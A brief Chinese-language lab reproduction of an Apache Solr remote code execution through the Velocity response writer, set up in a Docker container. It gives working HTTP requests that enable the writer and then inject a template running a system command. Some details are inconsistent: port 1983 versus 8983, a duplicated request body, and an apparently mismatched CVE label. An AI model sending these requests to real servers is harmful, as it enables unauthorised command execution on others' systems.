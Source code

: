 # Apache Solr CVE-2019-0193 环境搭建漏洞复现

 docker pull scxiaotan2/apache-solr:cve-2019-0193  # 拉去镜像
 
 docker run -it scxiaotan2/apache-solr:cve-2019-0193 /bin/bash #启动shell

./start.sh #启动根目录下的服务

netstat -tlnp #可以看到1983端口启用了


# Solr CVE-2019-0193 漏洞复现

使用BurpSuite 对数据包重放

第一步：

GET /solr/te1/config HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

第二步：

post /solr/te1/config HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

Content-Length: 259




{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }

}


第三步：

post /solr/te1/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end  HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

Content-Length: 259




{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}

